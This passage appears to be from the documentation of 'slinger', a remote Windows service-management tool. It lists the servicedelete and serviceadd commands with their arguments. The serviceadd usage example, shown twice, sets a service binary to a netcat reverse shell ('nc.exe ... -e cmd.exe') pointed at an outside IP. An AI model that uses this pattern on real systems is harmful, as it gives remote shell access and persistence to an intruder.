 **Example Usage:**
```
Example Usage: servicedelete -i 123  OR svcdelete Spooler
```

### Arguments

- **`serviceid`**: Specify the ID of the service to delete
  - Required: No

- **`service_name`**: Specify the name of the service to delete
  - Required: No

---

## `serviceadd`

**Description:** Create a new service on the remote server

**Help:**
```
usage: slinger serviceadd [-h] -n SERVICENAME -b BINARYPATH -d DISPLAYNAME -s {auto,demand,system}

Create a new service on the remote server

options:
  -h, --help            show this help message and exit
  -n SERVICENAME, --servicename SERVICENAME
                        Specify the name of the new service
  -b BINARYPATH, --binarypath BINARYPATH
                        Specify the binary path of the new service
  -d DISPLAYNAME, --displayname DISPLAYNAME
                        Specify the display name of the new service
  -s {auto,demand,system}, --starttype {auto,demand,system}
                        Specify the start type of the new service

Example Usage: -b "C:\nc.exe 10.0.0.26 8080 -e cmd.exe"

```

**Example Usage:**
```
Example Usage: -b "C:\nc.exe 10.0.0.26 8080 -e cmd.exe"
```

### Arguments

- **`servicename`**: Specify the name of the new service
  - Required: Yes

- **`binarypath`**: Specify the binary path of the new service
  - Required: Yes

- **`displayname`**: Specify the display name of the new service
  - Required: Yes
